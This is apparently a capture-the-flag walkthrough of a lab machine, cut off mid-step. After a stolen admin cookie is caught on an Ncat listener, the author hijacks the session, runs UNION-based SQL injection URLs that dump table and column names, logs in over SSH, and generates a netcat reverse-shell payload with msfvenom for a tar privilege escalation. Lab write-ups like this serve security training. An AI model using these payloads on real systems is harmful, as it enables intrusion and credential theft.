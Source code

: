 ```From system Thank you for your report. We have reviewed the listing and found nothing that violates our rules.```

![Image](https://imgur.com/WT6yUsd.png)

```From system Thank you for your report. We have been unable to review the listing at this time. Something may be blocking our ability to view it, such as alert boxes, which are blocked in our employee's browsers.```

Cool let go back to our Ncat listener to see which fish we just caught on the hook.

![Image](https://imgur.com/LOnuLXF.png)

Cool we have the admin cookie what to do now is to edit our cookie to put the admin cookie we can use cookie editor for that.

![Image](https://imgur.com/9Dmmvqq.png)

We edit the cookie value and save refreshing the page boom we have are in.

![Image](https://imgur.com/VK3JNVm.png)

We have the first flag cool let enumerate more.

![Image](https://imgur.com/jBaIIex.png)

I know what you are thinking yes it vulnerable to SQLI so i got stuck here for some time i try dumping the database with sqlmap but no luck so i try doing it manually so i try checking the version first.

```http://IP/admin?user=-1+union+select+version(),2,3,4```

![Image](https://imgur.com/CKFpgrG.png)

```http://IP/admin?user=-1+union+select+(SELECT+group_concat(table_name)+from+information_schema.tables+where+table_schema=database()),2,3,4```

![Image](https://imgur.com/G3KUZRE.png)

```http://IP/admin?user=-1+union+select+(SELECT+group_concat(column_name)+from+information_schema.columns+where+table_schema=database()),2,3,4```

![Image](https://imgur.com/EavVXwZ.png)

Do a little research on your own to dump the right database here.

![Image](https://imgur.com/DABGNSF.png)

So we have the credentials to log in ssh let hit it.

![Image](https://imgur.com/0Crv2Na.png)

Cool we are in let get the second flag.

![Image](https://imgur.com/pKQoVKS.png)

I always check sudo so let move to the next step so i check ```sudo -l```.

![Image](https://imgur.com/L6BAoRi.png)

Yes privilege escalation to michael cool so let exploit some tar file.

Exploiting a tar file to get a shell is pretty simple just folloow my steps now open a new terminal.

```msfvenom -p cmd/unix/reverse_netcat lhost=VPN-IP lport=1337 R```

![Image](https://imgur.com/EbvzidP.png)

After creating our payload let go back to the victim machine and type;
```